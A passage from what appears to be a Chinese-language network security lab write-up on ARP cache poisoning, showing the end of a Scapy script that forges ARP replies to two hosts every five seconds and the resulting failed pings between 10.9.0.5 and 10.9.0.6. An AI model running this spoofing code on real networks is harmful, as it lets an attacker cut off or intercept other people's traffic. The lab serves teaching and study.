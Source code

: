 ```python
               hwdst=A_mac, pdst=B_ip)
    arpB.op = 2

    pkt1 = ethA/arpA
    pkt1.show()
    sendp(pkt1, count=1)
    pkt2 = ethB/arpB
    pkt2.show()
    sendp(pkt2, count=1)
    time.sleep(5)
```

运行脚本，让其每隔五秒进行一次arp欺骗

```bash
python3 t22pro.py
```

![image-20220505211422784](ARPCachePoisoning/image-20220505211422784.png)

发现它们始终ping不通

```bash
A机器上 ping B
ping 10.9.0.6

B机器上 ping A
ping 10.9.0.5
```

![image-20220505211223383](ARPCachePoisoning/image-20220505211223383.png)
